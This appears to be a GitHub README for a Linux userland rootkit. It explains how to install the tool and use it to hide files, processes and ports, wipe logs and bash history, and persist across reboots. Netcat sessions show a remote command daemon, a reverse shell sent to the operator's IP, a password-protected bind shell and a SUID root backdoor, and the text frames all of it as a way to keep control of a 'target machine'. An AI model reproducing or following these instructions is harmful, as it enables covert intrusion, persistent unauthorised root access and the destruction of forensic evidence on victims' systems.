 <h2>BDS Linux Userland Rootkit</h2>
<br>
Developed by : Antonius
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
Twitter : https://twitter.com/bluedragonsec
<p>
<h3>Features : </h3>
<ul>
  <li>Hide files and directories</li>
  <li>Hide process</li>
  <li>Hide bind shell port, bds daemon port and reverse shell port from netstat</li>
  <li>Rootkit persistence to survive after reboot</li>
  <li>clean logs and bash history during installation</li>
</ul>
</p>

<p>
<h3>Installation</h3>
<br>
In case you have installed gcc, install it by running the installer script:
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed gcc, install it by running the installer script :
<pre>
./install.sh
</pre>
</p>

<p>
<h3>Using the Rootkit</h3>
</p>

<p>
<h4>Privilege Escalation</h4>
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing :
<br>
<b>/opt/bds_elf/bds_suid</b>
<br>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ /opt/bds_elf/bds_suid
root@robotsoft:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
root@robotsoft:~# 
</pre>
</p>

<p>
<h4>Using the Rootkit Daemon</h4>
<br>
Rootkit built in daemon is listening on port 31335.
Using the rootkit built in daemon, you can issue a reverse shell connection and executing linux command on target machine (which you have installed rootkit) remotely.
  To connect  to rootkit daemon, open your terminal and type :
  <pre>
  nc "target ip" 31335
  </pre>
<br>
Example : 
<br>
You have installed bds userland on ip address 192.168.43.36 , open terminal and type:
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :
</pre>
Type any linux command in cmd prompt
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :id
uid=0(root) gid=0(root) groups=0(root)
CMD :uname -a
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
CMD :pwd
/
CMD :
</pre>    
</p>

<p>
<h4>Activating Reverse Shell</h4>
<br>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then connect to bds daemon on your target server (with rootkit installed) on port 31335.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and connect to target server on port 31335 :
<pre>
nc server ip 31335
then type : 
/opt/bds_elf/bds_bc "your ip address"
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example :
<br>
Server ip address with rootkit installed is at 192.168.43.36, your local machine ip is at 192.168.43.230.
Open terminal on your local machine and set up port listener on port 31337:
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Open another terminal and connect to daemon on target machine (which you have installed rootkit) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :/opt/bds_elf/bds_bc 192.168.43.230
CMD :
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
root@robotsoft:~# nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.43.36 42012
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>
<p>
<h4>Connecting to Bind Shell Port</h4>
<br>
Bind shell port on server (which you have installed rootkit) is at port 31337, the password is <b>bluedragonsec</b></b>.
You can connect to bind shell port using netcat :
<pre>
nc "server ip address" 31337
then type the password : bluedragonsec  
</pre>
Example :
<br>
Server ip address (with bds userland rootkit installed) is at 192.168.43.36.
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31337
Password :bluedragonsec
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>

<p>
<h4>Hiding Files and Directories</h4>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>

<b>How to Clean Logs and Bash History ?</b>
<br>
Before running installation script, add username to usernames_to_clear_logs.txt in new line, example:
<pre>
root
robotsoft
</pre>
User logs will be cleaned during rootkit installation
</p>


<p>
<b>Process Hiding</b>
<br>
This rootkit hides bind shell process, reverse shell process and rootkit built-in daemon process.
</p>

<p>
<b>Port Hiding</b>
<br>
This rootkit hides bind shell port, reverse shell port and rootkit built-in daemon port.
</p>

<p>
<b>Persistence</b>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 2 minutes, the rootkit will be activated.
</p>


